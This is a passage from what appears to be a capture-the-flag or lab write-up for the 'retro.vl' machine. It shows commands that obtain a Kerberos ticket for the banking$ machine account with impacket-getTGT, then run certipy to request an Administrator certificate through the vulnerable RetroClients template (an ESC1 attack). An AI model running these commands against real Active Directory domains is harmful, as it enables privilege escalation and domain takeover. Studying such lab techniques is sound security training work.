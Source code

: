 ![](image-13.png)

\
But we saw an error **rpc_s_access_denied** which is similiar to netexec error for banking$ authentication.\
The best options is just ask a TGT (Ticket Granting Ticket) ticket to banking$ user and using kerberos just perform ESC1 attack.

```sql
impacket-getTGT retro.vl/banking$:banking -dc-ip dc
```

![](image-14.png)


\
Awesome we got a tgt ticket and now it is time to back ESC1. But before we need to set a **KRB5CCNAME** local environment variable and use path to tgt (banking$.ccache) file.

```sql
export KRB5CCNAME=banking\$.ccache
```

```sql
certipy req -u 'banking$'@retro.vl -k -no-pass -ca retro-DC-CA -template RetroClients -upn Administrator -target dc.retro.vl -key-size 4096
```
![](image-15.png)
